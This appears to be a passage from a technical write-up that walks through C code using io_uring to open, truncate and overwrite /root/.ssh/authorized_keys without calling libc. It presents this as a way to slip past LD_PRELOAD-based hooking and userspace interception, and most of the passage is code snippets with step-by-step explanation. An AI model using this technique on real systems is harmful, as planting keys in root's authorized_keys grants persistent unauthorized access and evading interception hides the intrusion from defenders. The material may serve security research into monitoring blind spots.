 This obtains a submission queue entry (SQE) and prepares an open. Unlike using libc's `open()`, this is handed off directly to the kernel. The file `/root/.ssh/authorized_keys` will be opened in write-only mode, created if it doesn’t exist, and truncated if it does.

- ### 3. Submitting the Request

```c
ret = io_uring_submit(&ring);
```

All pending SQEs are submitted to the kernel. This includes the open operation we just prepared.

- ### 4. Waiting for the Open to Complete

```c
ret = io_uring_wait_cqe(&ring, &cqe);
fd = cqe->res;
```

Here we block until the kernel reports the result of the previous open operation. If successful, `cqe->res` holds the file descriptor. Otherwise, it’s a negative errno value.

- ### 5. Writing to the File

```c
iov.iov_base = (void *)content;
iov.iov_len = content_len;
io_uring_prep_writev(sqe, fd, &iov, 1, 0);
```

We set up a `writev` with a single `iovec` structure pointing to our content buffer. Again, this bypasses libc and is submitted to the kernel through `io_uring_submit()`.

- ### 6. Closing the File Descriptor

```c
io_uring_prep_close(sqe, fd);
```

This prepares a close syscall for the previously obtained file descriptor, cleaning up the resource after the write is complete.

- ### 7. Cleanup

```c
io_uring_queue_exit(&ring);
```

This releases all resources associated with the io_uring instance.

The complete execution is handled via direct syscall preparation and completion queues, meaning no libc API (like `open()`, `write()`, or `close()`) is ever invoked. This effectively bypasses userspace interception mechanisms based on dynamic linking and LD_PRELOAD.

- **No libc Call: Rootkits using LD_PRELOAD hook userland functions. io_uring interacts directly with the kernel.**
- **Kernel Submission: SQEs (Submission Queue Entries) are placed in a shared ring buffer and processed by the kernel, without invoking libc functions.**
- **No Function Symbol Interception: Since we never call open() or write() directly, dlsym(RTLD_NEXT, ...) never sees these calls.**
